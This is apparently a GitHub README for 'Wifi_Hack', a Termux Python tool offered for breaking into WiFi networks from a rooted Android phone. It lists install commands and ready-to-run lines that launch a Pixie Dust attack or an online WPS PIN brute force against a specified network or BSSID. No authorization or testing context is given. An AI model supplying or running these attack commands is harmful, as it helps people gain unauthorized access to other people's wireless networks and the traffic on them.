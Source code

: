 ## Wifi_Hack
### Hack WIfi Using Termux! {Requires Root}

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/imranhacker69/Wifi-hack
$ cd Wifi_Hack
$ chmod +x hacker69.py
$ sudo python hacker69.py --help
```

#### Example : `sudo python hacker69.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python hacker69.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python hacker69.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python hacker69.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
